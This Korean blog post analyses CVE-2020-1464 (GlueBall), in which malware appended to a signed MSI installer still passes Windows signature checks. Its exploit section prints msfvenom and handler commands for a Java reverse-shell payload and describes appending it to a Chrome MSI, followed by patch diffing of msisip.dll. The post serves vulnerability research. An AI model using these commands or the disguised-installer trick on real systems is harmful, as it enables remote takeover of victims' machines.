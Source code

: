 ```yaml
---
title: "[Research] CVE-2020-1464: GlueBall"
author: L0ch
tags: [L0ch, cve, msi, code signing certificate, jar, glueball]
categories: [Research]
date: 2020-11-01 18:00:00
cc: true
index_img: /2020/11/01/l0ch/cve-2020-1464/img8.png
---
```



안녕하세요! 글 쓰는 걸 미루고 미루다 idioth 팀장님의 구박에 겨우겨우 첫 글을 쓰는 L0ch입니다. 

~~악덕 상사 우우 길 가다 레고 블록이나 밟아라~~ 

오늘은 Windows의 취약점 하나를 들고 왔는데요, 함께 보실까요? 



# 개요

GlueBall이라고 불리는 CVE-2020-1464는 2018년 9월에 제보되었습니다. 근데 마소 친구들이 패치 안 하고 있다가 2년이 지난 최근 patch tuesday라고 불리는 정기 패치에서 패치가 되었...? 왜 지금 와서???

![](cve-2020-1464/img1.png)

이상하긴 하지만... 넘어가도록 하고 취약점을 이해하는데 필요한 배경 지식부터 알아보도록 합시다!

# MSI (Microsoft Installer)

Windows 설치 패키지 
→ Windows용 애플리케이션의 설치 및 업데이트를 배포하는 데 사용됩니다.

![](cve-2020-1464/img2.png)

오늘의 희생양(ㅎㅎ)이 될 우리 크롬 어서 오고. 
크롬도 MSI로 배포되는 것을 알 수 있습니다. malicious 하게 꾸며줄 테니 조금만 기다리라구~

# Code Signing Certificate(코드 서명 인증서)

> **Code Signing Certificate**
> MS가 도입한 실행파일과 스크립트의 디지털 서명 과정으로, 이러한 인증서는 파일이 안전한 파일임을 증명해준다. SmartScreen filter는 인증서에 대한 자체적인 white list DB를 관리해 해당 인증서가 안전한지 아닌지 
> 판단한다. 인증서가 존재하지 않거나 파일이 변조되어 인증서가 유효하지 않으면 실행할 때 경고를 띄워 
> 사용자에게 알린다.

![](cve-2020-1464/img3.png)

코드 서명 인증서가 도입되면서, 인증서가 확인되지 않은 파일의 무분별한 실행이 줄었습니다. 그러나 여기서 끝나면 섭섭하죠? 유효하지 않은 인증서임에도 인증서 검증을 우회할 수 있는 취약점이 발견되었는데 이것이 오늘 설명할 GlueBall입니다.

# GlueBall : CVE-2020-1464

## Vulnerability

취약점은 MSI 파일의 인증서 검증 과정에서 발생합니다. 

MSI 파일을 실행하면 `msisip.dll`의 `MsiSIPVerifyIndirectData()` 함수에서 파일의 시작 부분이 유효한 MSI 파일인지 검증하고 서명을 확인합니다.

![](cve-2020-1464/img4.png)

그런데 이때 파일의 사이즈를 검증하지 않아 MSI 파일의 뒤에 임의의 데이터가 추가되어도 유효한 인증서라고 판단하게 되고, 공격자는 이를 이용해 인증서 검증을 우회하고 malicious 파일을 실행하도록 할 수 있습니다.

## JAR(Java Archive)

![](cve-2020-1464/img5.webp)

JAR은 자바 플랫폼 배포를 위한 패키지 파일 포맷입니다. 
특징으로는 zip 포맷으로 빌드되어 자바 런타임에서 로드될 때 파일의 끝에서부터 로드됩니다.

→ 파일 앞에 임의의 데이터가 있어도 정상 실행이 가능합니다.

슬슬 감이 올락 말락 하죠??

## Exploit

앞서 나온 취약점과 JAR 파일의 특성을 조합하면..?

**MSI 파일 끝에 임의 데이터가 와도 유효한 인증서가 되는 취약점 + 파일 앞에 임의의 데이터가 있어도 정상 실행되는 jar**

축하합니다! 익스플로잇 시나리오가 완성되었습니다!

그림으로 정리하면 다음과 같습니다.

![출처:https://www.securityinbits.com/malware-analysis/interesting-tactic-by-ratty-adwind-distribution-of-jar-appended-to-signed-msi/](cve-2020-1464/img6.png)

만능 메타스플로잇으로 리버스 쉘 malicious 파일을 생성해서 익스를 해볼게요.

msfvenom으로 리버스 쉘을 여는 jar포맷의  malicious 파일을 생성합니다.

```markdown
msfvenom -p java/meterpreter/revserse_https LHOST=[HOST IP] -f jar -o [filename].jar
```

![](cve-2020-1464/img7.png)

리스너도 미리 열어두겠습니다.

```markdown
handler -p java/meterpreter/reverse_https -H 0.0.0.0 
```

![](cve-2020-1464/img8.png)

생성된 jar 파일과 크롬 설치 msi 파일을 합칩니다. 이때 꼭 msi파일 뒤에 jar 파일이 오도록 순서를 지켜야 한다는 점!

![](cve-2020-1464/img9.png)

이제 생성된 exploit.jar 에서 인증서가 유효한지 확인해보면

![](cve-2020-1464/img10.png)

요렇게 유효한 인증서로 나오는 것을 볼 수 있습니다. 

실행을 해보면 피해 PC에서는 아무 반응도 없지만, 프로세스에서는 자바가 돌아가고 있고

![](cve-2020-1464/img11.png)

위 사진과 같이 리버스 쉘이 정상적으로 동작하는 걸 볼 수 있습니다!

## Patch diffing

MS는 이에 대한 패치를 내놨는데요, 어떻게 패치를 했는지 패치 이후의 msisip.dll를 구해 비교해보겠습니다.



> 💡주의! 글쓴이의 삽질이 담겨 있습니다.



않이 근데.. 이거 익스하고 글 좀 쓰고 디핑 하려고 보니까 그새 윈도우가 업데이트를 해버렸네..?

![](cve-2020-1464/img12.jpg)

아 ** 

- 자동 업데이트 안 끔
- 스냅샷 안 만들어놓음

→ 패치 전의 msisip.dll 못 구함 → ?????????

윈도우 원데이 분석할 땐 자동 업데이트는 꼭 끄도록 해요....... 아니면 스냅샷이라도...

패치 전의 msisip.dll을 어떻게 구하지? 어떻게 구하긴 조진 거지 ㅋㅋ

![](cve-2020-1464/img13.png)

엿같은 자동 업데이트 덕분에 던질 뻔했지만..^^ 
결국 idioth형 vm에 패치 전 파일이 있어서 그거 구걸해서 디핑 해버렸지요. 팀장님 최고 ~
넘겨주는 대신 리제로 정주행 하라는 협박은 못 들은 걸로 하겠습니다; 

![](cve-2020-1464/img14.png)

회색 노드는 새로 추가된 코드, 노란색 노드는 변경된 노드입니다.

![](cve-2020-1464/img15.png)

회색 노드를 보면 `MsiSIPVerifyIndirectData()` 함수에서 `NeedFileSizeVerification()` 과 `VerifyFileSize()` 를 호출하는 코드가 추가된 것을 보아 MSI 파일의 사이즈를 확인하는 코드를 추가해 취약점 패치를 한 것을 알 수 있습니다.



취약점 분석이랑 익스 하는 것보다 디핑 하는데 시간을 훨씬 많이 썼네요...^^ 이  과정을 개선할 여지가 있을 것 같아 다음 글은 디핑과 관련된 연구 주제 일 것 같습니다.  이거 하느라 윈도우 vm만 5개 만든 건 안 비밀 ^.^ 

그럼 다음 글로 돌아올게요 안녕!